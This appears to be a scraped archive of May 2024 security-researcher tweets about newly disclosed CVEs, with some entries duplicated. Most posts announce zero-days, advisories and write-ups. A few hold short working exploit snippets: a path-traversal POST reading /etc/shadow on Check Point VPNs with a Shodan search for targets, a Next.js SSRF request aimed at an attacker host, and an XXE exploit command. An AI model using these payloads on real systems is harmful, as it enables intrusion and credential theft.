cmd_realtime.php is only accessible via local cli 

Or it will throw 
"&lt;strong&gt;This script is only meant to run at the command line.&lt;/strong&gt;" https://t.co/vUjPC11hTl
</blockquote>

* https://github.com/Cacti/cacti/blame/develop/cmd_realtime.php#L25

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1789287098958361001 _at 2024-05-11, 13:31:02_**
<blockquote>
New "actively exploited" 0-day in Chrome (CVE-2024-4671) is an elevation of privilege to sandbox escape.  I am not seeing RCE part of the exploit chain in patched code
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# hd3s5
**https://twitter.com/hd3s5/status/1788948120413274305 _at 2024-05-10, 15:04:03_**
<blockquote>
actively exploited #Chrome 0 days in this year.
  CVE-2024-0519: OOB in V8. #itw(2024.1)
  CVE-2024-2887: type confusion in WebAssembly.(2024.3)
  CVE-2024-2886: UAF in WebCodecs. (2024.3)
  CVE-2024-3159: OOB in V8.(2024.3)
  CVE-2024-4671: Heap corruption in Blink. #itw(2024.5)
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1788751202509021443 _at 2024-05-10, 02:01:34_**
<blockquote>
Analysing a NSO iOS Spyware Sample(#blastpass)
CVE-2023-41064 + CVE-2023-41061 + WebP Vulnerability CVE-2023-4863
https://t.co/BXKmQ2k3yt
REF:
https://t.co/Sh5LijD98h https://t.co/Ec1LbdXFtz
</blockquote>

* https://github.com/blackorbird/APT_REPORT/blob/master/NSOGroup/Asia-24-Frielingsdorf-YouShallNotPassAnalysing.pdf
* https://citizenlab.ca/2023/09/blastpass-nso-group-iphone-zero-click-zero-day-exploit-captured-in-the-wild/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1787806957841100998 _at 2024-05-07, 11:29:29_**
<blockquote>
CVE-2024-4439: Wordpress Core &lt; 6.5.2 Unauthenticated Stored XSS 
https://t.co/RWMRxztIL8

Note: enable "Link to user profile" and "Open in new tab" before reproduce. https://t.co/yd9xP2nJTx
</blockquote>

* https://core.trac.wordpress.org/changeset/57951/branches/6.4/src/wp-includes/blocks/avatar.php

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# Creastery
**https://twitter.com/Creastery/status/1787327890943873055 _at 2024-05-06, 03:45:50_**
<blockquote>
Check out my write-up on a seemingly harmless and limited send() in GitHub (CVE-2024-0200) and how it could be used to obtain environment variables from a  production container and to achieve remote code execution in GitHub Enterprise Server:

https://t.co/jmjTTOxEGY
</blockquote>

* https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1786067235267662055 _at 2024-05-02, 16:16:27_**
<blockquote>
In a new guest blog, #Pwn2Own winner @_manfp details CVE-2024-2887 - a bug he used to exploit both #Chrome and #Edge during the contest on his way to winning Master of Pwn. He breaks down the root cause and shows how he exploited it. Read the details at https://t.co/BgMGfczO8U
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---

# SinSinology
**https://twitter.com/SinSinology/status/1796533246513250718 _at 2024-05-31, 13:24:38_**
<blockquote>
🚨🚨🚨 (CVE-2024-4358) I've exploited a chain of bugs allowing Authentication Bypass 🔥 and eventually Remote Code Execution🩸targeting the famous Telerik Report Server, The PoC and the Writeup are being dropped very soon 🪲
https://t.co/E6VTmMGGmi https://t.co/4QvRfEXs8l
</blockquote>

* https://docs.telerik.com/report-server/knowledge-base/registration-auth-bypass-cve-2024-4358

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>249</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1796529342354231513 _at 2024-05-31, 13:09:07_**
<blockquote>
CVE-2024-24919: Exposure of Sensitive Information  in Check Point 🔥

A vulnerability that has been on everyone's lips in recent days. Allows an unauthenticated attacker to gain access to sensitive information.

Search at https://t.co/hv7QKSqxTR:
👉 Link (tag, more results): https://t.co/KZJ19ubFkl
</blockquote>

* http://Netlas.io

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1796207012520366552 _at 2024-05-30, 15:48:18_**
<blockquote>
CVE-2024-30043: @chudyPB details this #SharePoint XXE he discovered. He calls it one of the craziest XXEs he has ever seen, both in terms of vuln discovery and the method of triggering. He shows how it can be used for info disclosure &amp; NTLM relaying. https://t.co/BzUDEE5Cy8
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/29/cve-2024-30043-abusing-url-parsing-confusion-to-exploit-xxe-on-sharepoint-server-and-cloud

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>87</code></td>
<td>Favorites: <code>258</code></td>
</tr></table>

---

# ynsmroztas
**https://twitter.com/ynsmroztas/status/1796141710507946169 _at 2024-05-30, 11:28:49_**
<blockquote>
For this vulnerability, just type shodan title:"Check Point" ssl:"target"

CVE-2024-24919

POST /clients/MyCRL HTTP/1.1
host: target
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow

#SSLVPN  #BugBounty https://t.co/VvnMkuC6P1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>687</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1796114942325608884 _at 2024-05-30, 09:42:27_**
<blockquote>
why the fuck SSL VPN softwares are vulnerable to path traversal in the body lol.  

CVE-2024-24919 Check Point Remote Access

 https://t.co/hCdjA0RTB3

#infosec #bugounty #cyberattack

I feel like these are  backdoors, not  bugs  LOL https://t.co/a3i0BSMsEF
</blockquote>

* https://labs.watchtowr.com/check-point-wrong-check-point-cve-2024-24919/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>135</code></td>
<td>Favorites: <code>698</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1794008363602174165 _at 2024-05-24, 14:11:39_**
<blockquote>
Google Chrome In-The-Wild Type Confusion in V8 (CVE-2024-5274 [341663589]]) is happening during parsing of JS files (apparently when handling Local/Vars allocation + eval()) and fixed by using FunctionParsingScope for parsing class static blocks:
https://t.co/raK9mooLBc
</blockquote>

* https://chromium-review.googlesource.com/c/v8/v8/+/5553030

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1793962091881120163 _at 2024-05-24, 11:07:47_**
<blockquote>
🚨Google corrige el 8º día cero de Chrome explotado activamente este año y el 4º Zero-Day de Chrome en mayo

Los usuarios de navegadores basados en Chromium como Microsoft Edge, Brave, Opera y Vivaldi deben estar atentos a los parches

CVE-2024-5274
https://t.co/JPDDQspsV1 https://t.co/2XIe3SLc3k
</blockquote>

* https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_23.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1793947744618385566 _at 2024-05-24, 10:10:46_**
<blockquote>
🔥 Urgent: Google released security updates for Chrome to fix a new ZERO-DAY (CVE-2024-5274) under active exploitation in the wild.

Details - https://t.co/SzLnSe3nkF

Users of Chromium-based browsers like Microsoft Edge, Brave, Opera, and Vivaldi should watch for patches.
</blockquote>

* https://thehackernews.com/2024/05/google-detects-4th-chrome-zero-day-in.html

<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>229</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1793940320167620744 _at 2024-05-24, 09:41:16_**
<blockquote>
Last week, Microsoft released a patch for CVE-2024-26238, a Windows 10 LPE reported by @yaumn_. You can read the advisory here:
https://t.co/Bn8XytOsth
</blockquote>

* https://www.synacktiv.com/advisories/windows-10-plugscheduler-elevation-of-privilege

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>103</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1793517567560335428 _at 2024-05-23, 05:41:24_**
<blockquote>
Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)
https://t.co/lb5CNJGqmD
This issue is similar to SpringMVC CVE-2018-1271 by @orange_8361 https://t.co/cQn9wAuuSf
</blockquote>

* https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2024-4956

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>241</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1793292950341869665 _at 2024-05-22, 14:48:51_**
<blockquote>
With the help of my friend, 

I successfully reproduced  CVE-2024-4956

unauth file read in Nexus Repository 3 https://t.co/LYjfCZc1It
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>260</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1792923245248668157 _at 2024-05-21, 14:19:47_**
<blockquote>
Google Chrome In-The-Wild Heap buffer overflow in WebRTC bug entry (CVE-2023-7024 [1513170]) is now open with a PoC:
https://t.co/byJGIeLKg7
</blockquote>

* http://crbug.com/1513170

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>69</code></td>
</tr></table>

---

# amalmurali47
**https://twitter.com/amalmurali47/status/1791566569501573163 _at 2024-05-17, 20:28:50_**
<blockquote>
Just reversed the recent git RCE: CVE-2024-32002. This was a great find and was very satisying to work on!

The exploit is pretty straightforward: an attacker just needs to get you to clone a repository recursively.

Works on Mac too. Make sure to patch your Git!

#CVE-2024-32002 https://t.co/u7LFIjF13b
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>63</code></td>
<td>Favorites: <code>349</code></td>
</tr></table>

---

# Synacktiv
**https://twitter.com/Synacktiv/status/1791457754437112174 _at 2024-05-17, 13:16:26_**
<blockquote>
CVE-2024-20391 - Our ninjas @l4x4 and @k3vinTell discovered that a mouse and a vulnerable Cisco NAM Client is all you need to get SYSTEM privileges from unauthenticated physical access.
https://t.co/L5BXrrF3HQ
</blockquote>

* https://www.synacktiv.com/advisories/code-execution-in-cisco-secure-client-with-nam

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---

# wazuh
**https://twitter.com/wazuh/status/1791076890951733262 _at 2024-05-16, 12:03:02_**
<blockquote>
CVE-2024-3094 in XZ Utils allows RCE via SSH. Our latest blog post shows how to use Wazuh to detect exploitation attempts by monitoring SSH processes for suspicious activities.

Read on: https://t.co/C8m0lw9fjE

#InformationSecurity #CyberSecurity #OpenSource
</blockquote>

* https://ow.ly/5JqV50RIamz

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# ynsmroztas
**https://twitter.com/ynsmroztas/status/1790841337224331561 _at 2024-05-15, 20:27:01_**
<blockquote>
If you discover a domain / subdomain using IBM Maximo Asset Management, be sure to check if it is XXE 🥳💰🤗

Use ;

python3 CVE-2020-4463[.]py --url http :// target / -x ( -x for xxe, -d for Data Leak)

https://t.co/DIGucYqJIL

#BugBounty #BugBountyTips https://t.co/MNsCVVrq8M
</blockquote>

* https://github.com/Ibonok/CVE-2020-4463/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>354</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1790400352073794036 _at 2024-05-14, 15:14:42_**
<blockquote>
New Chrome Zero-Day Vulnerability CVE-2024-4761 Under Active Exploitation https://t.co/pjaHYZUapA
</blockquote>

* https://thehackernews.com/2024/05/new-chrome-zero-day-vulnerability-cve.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# ripstech
**https://twitter.com/ripstech/status/1790397176398373235 _at 2024-05-14, 15:02:05_**
<blockquote>
Parallelism can be quite challenging - Our latest blog post covers a severe Use-After-Free vulnerability in Apache Guacamole (CVE-2023-30576).

Join us in diving into the world of glibc heap exploitation in a multi-threaded environment:

https://t.co/SaPeTIwWX4

#appsec #security https://t.co/iqEFfr2a52
</blockquote>

* https://www.sonarsource.com/blog/avocado-nightmare-2/?utm_medium=social&utm_source=twitter&utm_campaign=research&utm_content=blog-avocado-nightmare-2-240123-p1&utm_term=ww_en_all_x

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1790379427383120022 _at 2024-05-14, 13:51:33_**
<blockquote>
🔔 Urgent: #Google has released emergency fixes for a new zero-day #vulnerability (CVE-2024-4761) that has been actively exploited in the wild.

Details here: https://t.co/PgW7xbBlQ2

Upgrade to the latest version now.
</blockquote>

* https://thehackernews.com/2024/05/new-chrome-zero-day-vulnerability-cve.html

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1790307761596862642 _at 2024-05-14, 09:06:47_**
<blockquote>
About CVE-2024-29895 . How to bypass cli_check. in https://t.co/xR4S7hdyHU

include/cli_check.php:  define('CACTI_CLI_ONLY', true);

cmd_realtime.php is only accessible via local cli 

Or it will throw 
"&lt;strong&gt;This script is only meant to run at the command line.&lt;/strong&gt;" https://t.co/vUjPC11hTl
</blockquote>

* https://github.com/Cacti/cacti/blame/develop/cmd_realtime.php#L25

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# Netlas_io
**https://twitter.com/Netlas_io/status/1789961086998876191 _at 2024-05-13, 10:09:13_**
<blockquote>
CVE-2024-26026, -21793: Two injections in F5 Big IP, 7.5 rating❗️

SQL injection and OData injection allow an unauthenticated attacker to conduct a remote attack and gain access to sensitive information.

Search at https://t.co/hv7QKSqxTR:
👉🏻 Link: https://t.co/1ZjSkWuomm
👉🏻 https://t.co/j59rVW6FLw
</blockquote>

* http://Netlas.io
* https://nt.ls/jQqNM

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1789287098958361001 _at 2024-05-11, 13:31:02_**
<blockquote>
New "actively exploited" 0-day in Chrome (CVE-2024-4671) is an elevation of privilege to sandbox escape.  I am not seeing RCE part of the exploit chain in patched code
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# hd3s5
**https://twitter.com/hd3s5/status/1788948120413274305 _at 2024-05-10, 15:04:03_**
<blockquote>
actively exploited #Chrome 0 days in this year.
  CVE-2024-0519: OOB in V8. #itw(2024.1)
  CVE-2024-2887: type confusion in WebAssembly.(2024.3)
  CVE-2024-2886: UAF in WebCodecs. (2024.3)
  CVE-2024-3159: OOB in V8.(2024.3)
  CVE-2024-4671: Heap corruption in Blink. #itw(2024.5)
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>66</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1788751202509021443 _at 2024-05-10, 02:01:34_**
<blockquote>
Analysing a NSO iOS Spyware Sample(#blastpass)
CVE-2023-41064 + CVE-2023-41061 + WebP Vulnerability CVE-2023-4863
https://t.co/BXKmQ2k3yt
REF:
https://t.co/Sh5LijD98h https://t.co/Ec1LbdXFtz
</blockquote>

* https://github.com/blackorbird/APT_REPORT/blob/master/NSOGroup/Asia-24-Frielingsdorf-YouShallNotPassAnalysing.pdf
* https://citizenlab.ca/2023/09/blastpass-nso-group-iphone-zero-click-zero-day-exploit-captured-in-the-wild/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1788710784849059851 _at 2024-05-09, 23:20:58_**
<blockquote>
CVE-2024-34351 : Server-Side Request Forgery on Next.js 

https://t.co/uHkC2VUHzr
https://t.co/6o8dNJxDuz

POC:

POST /x HTTP/2
Host: attacker*com
Content-Length: 2
Next-Action: xxxx

{}
#BugBounty #bugbountytips https://t.co/7sAHSmSiZ9
</blockquote>

* https://github.com/vercel/next.js/security/advisories/GHSA-fr5h-rqp8-mj6g
* https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1787806957841100998 _at 2024-05-07, 11:29:29_**
<blockquote>
CVE-2024-4439: Wordpress Core &lt; 6.5.2 Unauthenticated Stored XSS 
https://t.co/RWMRxztIL8

Note: enable "Link to user profile" and "Open in new tab" before reproduce. https://t.co/yd9xP2nJTx
</blockquote>

* https://core.trac.wordpress.org/changeset/57951/branches/6.4/src/wp-includes/blocks/avatar.php

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# l33d0hyun
**https://twitter.com/l33d0hyun/status/1787715374206853240 _at 2024-05-07, 05:25:34_**
<blockquote>
My new Samsung Galaxy vulnerability!

- SVE-2024-0092(CVE-2024-20861): Use after free vulnerability in SveService
- SVE-2024-0096(CVE-2024-20862): Out-of-bounds write in SveService

https://t.co/DJFXhltiuh =&gt; Firmware Updates =&gt; 2024 May https://t.co/ZfT2KPrBma
</blockquote>

* https://security.samsungmobile.com/securityUpdate.smsb

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Creastery
**https://twitter.com/Creastery/status/1787327890943873055 _at 2024-05-06, 03:45:50_**
<blockquote>
Check out my write-up on a seemingly harmless and limited send() in GitHub (CVE-2024-0200) and how it could be used to obtain environment variables from a  production container and to achieve remote code execution in GitHub Enterprise Server:

https://t.co/jmjTTOxEGY
</blockquote>

* https://starlabs.sg/blog/2024/04-sending-myself-github-com-environment-variables-and-ghes-shell/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>89</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# thezdi
**https://twitter.com/thezdi/status/1786067235267662055 _at 2024-05-02, 16:16:27_**
<blockquote>
In a new guest blog, #Pwn2Own winner @_manfp details CVE-2024-2887 - a bug he used to exploit both #Chrome and #Edge during the contest on his way to winning Master of Pwn. He breaks down the root cause and shows how he exploited it. Read the details at https://t.co/BgMGfczO8U
</blockquote>

* https://www.zerodayinitiative.com/blog/2024/5/2/cve-2024-2887-a-pwn2own-winning-bug-in-google-chrome

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>320</code></td>
</tr></table>

---

